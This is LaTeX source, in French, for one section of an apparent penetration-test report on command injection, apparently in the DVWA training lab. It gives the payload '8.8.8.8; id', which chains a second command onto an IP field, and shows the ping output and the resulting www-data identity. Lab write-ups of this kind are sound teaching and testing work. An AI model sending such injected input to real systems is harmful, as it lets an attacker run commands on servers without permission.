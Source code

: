 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\subsection{Description}
	
	Command Injection permet d'exécuter des commandes système arbitraires en exploitant 
	un champ de saisie qui ne valide pas les d��limiteurs de commande.
	
	\subsection{Exploitation}
	
	\begin{enumerate}
		\item Accéder à : \textbf{Vulnerabilities → Command Injection}
		\item Entrer l'adresse IP: \texttt{8.8.8.8}
		\item Ajouter la commande à chaîner: \texttt{; id}
		\item Charge utile complète : \texttt{8.8.8.8; id}
	\end{enumerate}
	
	\subsection{Résultats}
	
	\begin{lstlisting}[caption=Résultat de Command Injection,style=logstyle]
		PING 8.8.8.8 (8.8.8.8): 56 data bytes
		64 bytes from 8.8.8.8: icmp_seq=0 ttl=126 time=353.420 ms
		64 bytes from 8.8.8.8: icmp_seq=1 ttl=126 time=24.713 ms
		64 bytes from 8.8.8.8: icmp_seq=2 ttl=126 time=22.696 ms
		64 bytes from 8.8.8.8: icmp_seq=3 ttl=126 time=23.053 ms
		--- 8.8.8.8 ping statistics ---
		4 packets transmitted, 4 packets received, 0% packet loss
		
		uid=33(www-data) gid=33(www-data) groups=33(www-data)
	\end{lstlisting}
	
	\subsection{Impact}
	
	\begin{tcolorbox}[colback=criticalred!10!white, colframe=criticalred, 
		title=\textbf{CRITICITÉ: CRITIQUE}]
		\textbf{Accès Système Complet :} Attaquant exécute des commandes avec les 
		privilèges du serveur web (www-data). Possibilité complète de compromission 
		du système (installation de backdoors, vol de données, DoS).
	\end{tcolorbox}
	
\end{document}
